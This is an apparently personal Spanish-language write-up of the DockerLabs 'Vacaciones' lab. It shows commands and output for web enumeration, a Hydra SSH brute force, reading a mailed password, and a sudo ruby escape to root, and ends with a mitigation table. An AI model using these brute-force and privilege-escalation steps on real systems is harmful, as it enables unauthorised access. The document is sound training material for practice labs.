

# Vacaciones — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.2

## Descripcion 

Laboratorio para practicar fuerza bruta contra SSH y escalada de privilegios en Linux.

##  Attack Chain

**Nmap → Enumeración web → Identificación de usuario → Fuerza bruta SSH → Acceso SSH → Enumeración de archivos → Obtención de credenciales → Cambio de usuario → Enumeración de sudo → Abuso de sudo → Root**

## 1. Reconocimiento e Identificación del Servicio

Con el contenedor de Dockerlabs desplegado en la IP `172.17.0.2`, ingresamos a la ip y vemos la siguiente pagina en blanco.



No tenemos informacion relevante asi que usaremos curl para visualizar el codigo de la pagina HTML, y vemos lo siguiente:

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/vacaciones]
└─$ curl 172.17.0.2
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->

```

### 1.2 Escaneo de puertos y servicios activos.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/vacaciones]
└─$ sudo nmap -sC -sV 172.17.0.2  
[sudo] password for mariano: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-27 16:48 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:B9:C4:05:04:3E (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds

```
Tenemos solamente dos servicios corriendo, SSH en el puerto 22 y Apache en el puerto 80.


### 2. Fuerza bruta con Hydra 

Usamos hydra para obtener la clave del usuario camilo.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/vacaciones]
└─$ sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt -t 4 -f 172.17.0.2 ssh
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-27 16:50:49
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-27 16:50:50

```
Nos conectamos al servicio SSH, usando las credenciales obtenidas y realizamos una busqueda por contenido importante


```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/vacaciones]
└─$ ssh camilo@172.17.0.2
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
camilo@172.17.0.2's password: 
Last login: Sun Sep 27 19:55:05 2026 from 172.17.0.1
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
camilo@41c7a7a70432:~$ cd /var
camilo@41c7a7a70432:/var$ ls
backups  cache  lib  local  lock  log  mail  opt  run  spool  tmp  www
camilo@41c7a7a70432:/var$ cd mail
camilo@41c7a7a70432:/var/mail$ ls
camilo
camilo@41c7a7a70432:/var/mail$ cd camilo
camilo@41c7a7a70432:/var/mail/camilo$ ls
correo.txt
camilo@41c7a7a70432:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

```
Nos proporciona la contraseña del usuario Juan, cambiamos de usuario ya que con el de Camilo no tenemos permisos para escalara root.

```
camilo@41c7a7a70432:/$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 41c7a7a70432.
camilo@41c7a7a70432:/$ su juan
Password: 
$ whoami
juan
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
juan@41c7a7a70432:/$ sudo -l
Matching Defaults entries for juan on 41c7a7a70432:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 41c7a7a70432:
    (ALL) NOPASSWD: /usr/bin/ruby
juan@41c7a7a70432:/$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root

```
Pasamos a usuario Juan, y ejecutamos `sudo -l` y utilizamos el bypass conocido de GTFOBins.

## Conclusión

La máquina **Vacaciones** presenta una cadena de ataque en la que varias configuraciones inseguras permiten avanzar desde la enumeración inicial hasta la obtención de privilegios `root`.

| Vulnerabilidad / Mala configuración     | Impacto                                                                                        | Mitigación                                                           |
| --------------------------------------- | ---------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| **Usuario expuesto en el servicio web** | Permite identificar un usuario válido para atacar SSH.                                         | No exponer información sensible en el código fuente.                 |
| **SSH vulnerable a fuerza bruta**       | Permite obtener acceso mediante ataques automatizados como `Hydra`.                            | Usar contraseñas robustas, rate limiting y claves SSH.               |
| **Credenciales expuestas en archivos**  | Permite obtener las credenciales de otro usuario y realizar un cambio de usuario.              | No almacenar contraseñas en texto plano y restringir permisos.       |
| **Permisos excesivos en `sudo`**        | Permiten utilizar funcionalidades autorizadas para escalar privilegios hasta `root`.           | Aplicar mínimo privilegio y revisar las reglas de `sudo`.            |
| **Escalada de privilegios**             | La combinación de las configuraciones anteriores permite comprometer completamente el sistema. | Auditar usuarios, permisos, credenciales y servicios periódicamente. |

### Recomendaciones generales

* No exponer información sensible en aplicaciones web.
* Utilizar contraseñas robustas y protección contra fuerza bruta.
* No almacenar credenciales en texto plano.
* Restringir los permisos de archivos sensibles.
* Aplicar el principio de **mínimo privilegio**.
* Revisar periódicamente las reglas de `sudo`.


